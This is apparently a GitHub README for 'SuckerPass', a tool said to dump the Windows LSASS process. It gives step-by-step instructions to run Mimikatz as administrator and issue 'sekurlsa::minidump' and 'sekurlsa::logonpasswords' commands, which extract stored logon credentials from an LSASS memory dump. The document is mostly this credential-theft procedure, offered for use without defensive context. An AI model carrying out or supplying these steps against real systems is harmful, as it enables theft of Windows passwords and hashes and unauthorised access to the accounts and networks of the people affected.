

# SuckerPass
SuckerPass is a tool that dumps the LSASS process on Windows.



#Intructions
* Download Mimikatz;
* Run Mimikatz as Administrator;
* Enter the following commands;
  <pre>
```bash
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
</pre>
